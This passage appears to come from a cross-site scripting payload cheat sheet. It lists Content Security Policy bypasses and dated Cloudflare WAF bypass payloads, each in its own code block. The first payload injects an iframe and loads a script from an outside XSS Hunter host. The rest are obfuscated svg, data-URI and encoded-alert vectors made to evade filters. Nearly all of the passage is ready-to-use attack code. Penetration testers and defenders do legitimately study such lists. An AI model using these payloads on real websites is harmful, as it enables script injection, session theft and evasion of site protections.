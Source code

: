 ```js
// CSP Bypass with Inline and Eval
d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://[YOUR_XSSHUNTER_USERNAME].xss.ht";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)
```

### Bypass CSP by [@akita_zen](https://twitter.com/akita_zen)

Works for CSP like `script-src self`

```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

### Bypass CSP by [@404death](https://twitter.com/404death/status/1191222237782659072)

Works for CSP like `script-src 'self' data:`

```javascript
<script ?/src="data:+,\u0061lert%281%29">/</script>
```


## Common WAF Bypass

### Cloudflare XSS Bypasses

#### 21st April 2020

```html
<svg/OnLoad="`${prompt``}`">
```

#### 22nd August 2019

```html
<svg/onload=%26nbsp;alert`bohdan`+
```

#### 5th June 2019

```html
1'"><img/src/onerror=.1|alert``>
```

#### 3rd June 2019

```html
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
```

```
<svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
```
